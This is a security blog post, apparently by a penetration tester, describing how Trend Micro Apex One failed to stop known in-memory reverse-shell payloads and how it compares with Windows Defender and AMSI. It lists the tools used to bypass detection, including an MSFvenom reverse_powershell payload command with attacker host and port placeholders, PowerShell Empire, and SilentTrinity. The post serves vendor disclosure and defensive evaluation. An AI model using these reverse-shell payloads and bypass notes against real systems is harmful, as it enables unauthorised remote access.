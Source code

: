 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# The Troubled Tale of Trend Micro
___________________________________

# Background
Imagnie, if you will, that your orginization utilizes a well known and 'trusted' Enterprise grade endpoint detection and response solution. Furthermore, imagine that you discover a way to bypass this solution, but to your horror a couple of seriously glarring issues come to the forefront: 
1. The EDR solution can be byapssed using simple or even very basic payloads. 
2. The EDR solution can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.
3. A solution, update, signature, whatever still hasn't been deployed to clients despite working months on end with back-end engineers and other team members part of the vendor and providing beyond adequate information to help them.

Now, I'm a bit skeptical when it comes to AV and EDR solutions. One often hears sale reps tout about how great their product is. How it will *'block everything'*, *'prevent breaches'*, and blah, blah, blah. Obviously, a product like this isn't going to prevent bleeding edge methods or techniques that are used to get around them. The same goes for customized payloads. Heck, the simple reverse PowerShell script I wrote back in March surprisingly still gets around Defender and AMSI in Windows 10 build 1903. What I'm trying to get at, is that the art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know a much more than I do when it comes to this type of stuff. 

# Testing
I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of low privilege access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was bit shocked when I discovered how trivial it was to get around it. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR soluitions. As expected, it was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known payloads and tools.

### Tools and payloads that were used to bypass Apex One:
* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity

I noticed an anomoly during testing when using the MSFvenom payload cmd/windows/reverse_powershell in conjuntion with the Magic Unicorn payload generator from TrustedSec. Apex One was catching this for some reason despite being obfuscated via base64 encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not is is harmful. In this case it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. The opposite occurs when planting the base64 encoded PowerShell payload generated from the launcher command in Empire PowerShell. I'm not so sure why it's catching one and not the other despite both payloads being encoded. Most of the other MSFVenom payloads that I've tested up to this point (windows/shell/reverse_tcp) and outputted in the formats `psh-cmd`, `hta-psh` is stopped by Apex One.

Before you ask, yes I did checking the settings in the administration console. I double checked, triple checked, checked again and then had a short existential crisis episode. Other collegaues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off and check again by now if it was something on my end. After countless emails back and forth, a couple of phone calls later and a handful of updates pushed out, the problem still persists. I first notified Trend of the issue back in Feburary and it is now June. I should point out that we were at a point in the process in which we were able to get Apex One to succesfully block anything from PowerShell Empire. However, this glimer of hope only lasted for a short period of time. I tried throwing some stuff at Apex One a couple of days later with PowerShell Empire to test for consistency and of course it was once again letting the launcher payload through.

# A Shockng Revelation
During testing, I needed to metrics from other AV and EDR solutions to compare with and against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me to say the least. You'd think a free, built-in AV that comes with Windows would be absolute crap, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 was able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the github link. However, I was able get around it using my custom reverse PowerShell script (this was expected) and using silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't recived a message from AMSI or Defender saying something malicous was going on. However, I recieved an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. To make sure I wasn't go insane and to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and peform the same tests. Again, Defender stopped what Apex One couldn't.

# Conclusion
You defitnely know you have a problem when an AV included in almost every single version of Windows 10 does much better job than the other solution that has had research and development with fancy (or gimmicky) features like machine learing, poured into it and people have to pay for it. Again, there's no perfect AV and EDR or all-in-one solution that will catch ever single thing including bleeding edge tactics and manuvers. However, if you're going to make people and orginization pay for your product then it better be able to react to the most basic malicious payloads and exploitation frameworks. Especially, if they've been publicy available for a while and allow you to tear the source code apart to figure out how it works.


# Proof.txt



